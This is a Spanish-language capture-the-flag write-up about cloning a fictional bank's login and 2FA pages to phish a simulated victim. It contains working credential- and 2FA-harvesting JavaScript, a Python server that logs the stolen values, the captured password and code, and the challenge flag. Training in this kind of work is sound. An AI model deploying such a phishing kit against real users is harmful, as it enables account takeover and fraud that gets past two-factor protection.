

#### Convirtiendo la página en un arma

Una vez que obtuvimos la página del 2FA, nosotros queremos que lo que introduzca el usuario nos llegue en texto plano para poder robar su identidad. Debido a esto, debemos modificar el JS existente en `verificar.html` para que en vez de intentar realizar la validación enviando un hash del token con el nonce, nos envíe el token ingresado por la víctima en texto plano. 

Para ello, modificamos el archivo `verificar.html` con el siguiente código JS personalizado. Reemplazamos esto
```js
<script src="https://chl-2f8acbf1-71f8-47e1-a8fa-2567ce51e400-veltra-bank.softwareseguro.com.ar/static/veltra.js"></script>
<script>(function(){function c(){var b=a.contentDocument||(a.contentWindow&&a.contentWindow.document);if(b){var d=b.createElement('script');d.innerHTML="window.__CF$cv$params={r:'a4892fedafe9ab2b',t:'MTc5MTY3MjY2MA=='};var a=document.createElement('script');a.src='/cdn-cgi/challenge-platform/scripts/jsd/main.js';document.getElementsByTagName('head')[0].appendChild(a);";b.getElementsByTagName('head')[0].appendChild(d)}}if(document.body){var a=document.createElement('iframe');a.height=1;a.width=1;a.style.position='absolute';a.style.top=0;a.style.left=0;a.style.border='none';a.style.visibility='hidden';document.body.appendChild(a);if('loading'!==document.readyState)c();else if(window.addEventListener)document.addEventListener('DOMContentLoaded',c);else{var e=document.onreadystatechange||function(){};document.onreadystatechange=function(b){e(b);'loading'!==document.readyState&&(document.onreadystatechange=e,c())}}}})();</script>
```

Por esto:
```js
 <script>
    document.getElementById('form-2fa').addEventListener('submit', async function (e) {
      e.preventDefault();

      const alertEl = document.getElementById('alert');
      alertEl.style.display = 'none';

      const codigoInput = document.getElementById('txt-2fa');
      const codigo = codigoInput.value.trim();

      if (!codigo) {
        alertEl.textContent = 'Ingresa el codigo de verificacion.';
        alertEl.style.display = '';
        return;
      }

      try {
        const response = await fetch('/api/verificar', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ codigo: codigo })
        });

        const data = await response.json();

        if (response.ok && data.ok) {
          window.location = data.next || '/dashboard';
        } else {
          alertEl.textContent = data.error || 'Codigo incorrecto o expirado.';
          alertEl.style.display = '';
        }
      } catch (err) {
        alertEl.textContent = 'Error de comunicacion con el servidor.';
        alertEl.style.display = '';
      }
    });
</script>
```


Si observamos el cambio, lo que hicimos fue que en vez de completar el proceso de 2FA como lo establecía la página original, ahora envíe el token en texto plano a nuestro servidor malicioso:
```js
 const response = await fetch('/api/verificar', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ codigo: codigo })
});
```

Adicionalmente, deberemos hacer un pequeño cambio en `login.html` para que redirija al usuario a `/verificar` sin esperar el proceso normal del login. Particularmente, debemos modificar esto:
```js
<script>(function(){function c(){var b=a.contentDocument||(a.contentWindow&&a.contentWindow.document);if(b){var d=b.createElement('script');d.innerHTML="window.__CF$cv$params={r:'a48904dd6e7857e7',t:'MTc5MTY3MDg5Ng=='};var a=document.createElement('script');a.src='/cdn-cgi/challenge-platform/scripts/jsd/main.js';document.getElementsByTagName('head')[0].appendChild(a);";b.getElementsByTagName('head')[0].appendChild(d)}}if(document.body){var a=document.createElement('iframe');a.height=1;a.width=1;a.style.position='absolute';a.style.top=0;a.style.left=0;a.style.border='none';a.style.visibility='hidden';document.body.appendChild(a);if('loading'!==document.readyState)c();else if(window.addEventListener)document.addEventListener('DOMContentLoaded',c);else{var e=document.onreadystatechange||function(){};document.onreadystatechange=function(b){e(b);'loading'!==document.readyState&&(document.onreadystatechange=e,c())}}}})();</script>
```

Por esto:
```js
<script>
  document.getElementById('form-login').addEventListener('submit', async (e) => {
    e.preventDefault();

    const payload = {
      username: document.getElementById('txt-login').value,
      password: document.getElementById('txt-password').value
    };

    try {
      const response = await fetch('/api/login', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(payload)
      });

      if (response.ok) {
        const data = await response.json();
        window.location.href = data.redirect || '/verificar';
      } else {
        alert('Error: Server responded with status ' + response.status);
      }
    } catch (err) {
      console.error('Submission failed:', err);
    }
  });
</script>
```

#### Webserver local v3

Una vez obtenido el clon malicioso de la página de 2FA, ahora debemos actualizar nuestro webserver para que sepa manejar los nuevos endpoints. Para eso, reemplazamos el `server.py` que habíamos creado antes por su nueva versión:
```python
import json
from http.server import BaseHTTPRequestHandler, HTTPServer
from pathlib import Path

BASE_DIR = Path(__file__).resolve().parent
LOGIN_FILE = BASE_DIR / "login.html"
VERIFICAR_FILE = BASE_DIR / "verificar.html"

class SimpleAuthHandler(BaseHTTPRequestHandler):
    def _serve_file(self, file_path: Path):
        if not file_path.is_file():
            self.send_error(404, f"File {file_path.name} not found.")
            return

        content = file_path.read_bytes()
        self.send_response(200)
        self.send_header("Content-Type", "text/html; charset=utf-8")
        self.send_header("Content-Length", str(len(content)))
        self.end_headers()
        self.wfile.write(content)

    def _send_json(self, data: dict, status: int = 200):
        body = json.dumps(data).encode("utf-8")
        self.send_response(status)
        self.send_header("Content-Type", "application/json")
        self.send_header("Content-Length", str(len(body)))
        self.end_headers()
        self.wfile.write(body)

    def _log_request(self, endpoint: str, body: str):
        print("\n" + "=" * 50)
        print(f"[POST] {endpoint} from {self.client_address[0]}:{self.client_address[1]}")
        print("Headers:")
        print(self.headers.as_string().strip())
        print("Payload:")
        print(body if body else "<empty body>")
        print("=" * 50 + "\n")

    def do_GET(self):
        if self.path == "/login":
            self._serve_file(LOGIN_FILE)
        elif self.path == "/verificar":
            self._serve_file(VERIFICAR_FILE)
        else:
            self.send_error(404, "Not Found")

    def do_POST(self):
        content_length = int(self.headers.get("Content-Length", 0))
        raw_body = self.rfile.read(content_length).decode("utf-8")

        if self.path == "/api/login":
            self._log_request("/api/login", raw_body)
            # Instruct the client to redirect to /verificar
            self._send_json({"status": "ok", "redirect": "/verificar"})

        elif self.path == "/api/verificar":
            self._log_request("/api/verificar", raw_body)
            self._send_json({"status": "ok", "message": "Verification code logged."})

        else:
            self.send_error(404, "Not Found")

def run(port=8000):
    server = HTTPServer(("", port), SimpleAuthHandler)
    print(f"Server running at http://localhost:{port}/login")
    try:
        server.serve_forever()
    except KeyboardInterrupt:
        print("\nShutting down server.")
        server.server_close()

if __name__ == "__main__":
    run(3000)


```

Y lo re-ejecutamos con `python server.py`


### El ataque final

Ahora sí! Teniendo clonados tanto el sistema del login como el 2FA, podemos volver a engañar a Gastón para que nos de toda su información sin saberlo!

Revisamos los logs...


Y ahora sí! Tenemos toda su información!!

#### Impersonando a Gastón

Ahora que tenemos todos los datos, sólo resta ingresar a Veltra Bank como Gastón!

Usamos los datos obtenidos:
```sh
usuario=gaston.diaz
clave=Gaston$5.!@1990
codigo2FA=757025
```

Y et voilá!


>Nota: La obtención del código 2FA y el login debe hacerse rápido ya que el token tiene una expiración real

#### Flag!

>Flag: `e769a8f5702bc47d98732409d2794756`
